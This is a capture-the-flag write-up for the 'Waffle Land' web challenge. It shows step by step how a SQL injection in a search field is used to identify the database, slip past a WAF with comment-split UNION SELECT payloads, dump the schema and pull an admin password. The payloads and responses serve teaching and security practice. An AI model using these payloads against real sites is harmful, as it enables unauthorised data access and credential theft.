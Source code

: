 ```yaml
---
layout: post
title: "Waffle Land"
author: "shreyas-sriram"
tags: ['Web']
---
```


We got hacked, but our waffles are now safe after we mitigated the vulnerability.

Connect here:<br/>
[http://jh2i.com:50024](http://jh2i.com:50024)

## Solution
* Exploring the page, we find that it is mostly static except for the `Search` and `Signin` functionality
* Checking for SQL Injection (SQLi) in both, we find that the `Search` functionality is vulnerable to SQLi
* SQLi can be detected by entering input as `'`<br/>

**Payload**
```
'
```

**Response**
```
Bad Request
(sqlite3.OperationalError) unrecognized token: "'"
[SQL: select * from product where name like '%'%']
(Background on this error at: http://sqlalche.me/e/13/e3q8)
```

* It can be seen that `sqlite` is used as database
* All we have to do is inject and obtain data<br/>

**SQL Injection Exploitation Steps**
* Detect vulnerability :
	* already done
* Find type of injection :
	* we know the response is gotten back
* Find number of columns returned :
	* Use `ORDER BY <column-number>`
	* `--;` is used to end the SQL statement<br/>

**Payload**
```
' ORDER BY 10 --;
````

**Response**
```
Bad Request
(sqlite3.OperationalError) 1st ORDER BY term out of range - should be between 1 and 5
[SQL: select * from product where name like '%' ORDER BY 10 --;%']
(Background on this error at: http://sqlalche.me/e/13/e3q8)
```

* Find the injectable columns :
	* Use `UNION SELECT 1,2,3,4,..,x`
	* In this case, we get `403 Forbidden`
	* Probably there is a WAF (Web Application Firewall) checking inputs, this needs to be bypassed
	* Using SQL comments found [here](https://incogbyte.github.io/sqli_waf_bypass/), we can bypass the WAF
	* From the response image below, we see that `columns 2, 3, 4` are injectable

**Payload**
```
'/**/UNION/**/SELECT/**/1,2,3,4,5 --;
````

**Response**
![alt-text]({{site.baseurl}}/assets/Waffle-Land/vuln-cols.png)

* Exploit the columns to extract data :
	* Use `sql FROM sqlite_master` to get the `TABLE definitions`
	* We get two TABLES - `product` and `user`
	* `TABLE user` is what we are interested in<br/>

**Payload**
```
'/**/UNION/**/SELECT/**/1,sql,3,4,5 FROM sqlite_master --;
```

**Response**
```
CREATE TABLE product (
	id INTEGER NOT NULL, 
	name VARCHAR(40), 
	description VARCHAR(500), 
	prize VARCHAR(10), 
	image VARCHAR(50), 
	PRIMARY KEY (id), 
	UNIQUE (name)
)

CREATE TABLE user (
	id INTEGER NOT NULL, 
	username VARCHAR(40), 
	password VARCHAR(40), 
	PRIMARY KEY (id), 
	UNIQUE (username)
)
```

* Extract data from TABLE :
	* Use `<column-names> FROM <table-names>`<br/>
	
**Payload**
```
'/**/UNION/**/SELECT/**/1,username,password,4,5 FROM user --;
```

**Response**
```
admin
$4
NT7b#ed4$J?eZ#m_
```

* Use the obtained username and password in `Signin` to get the flag

## Flag
```
flag{check_your_WAF_rules}
```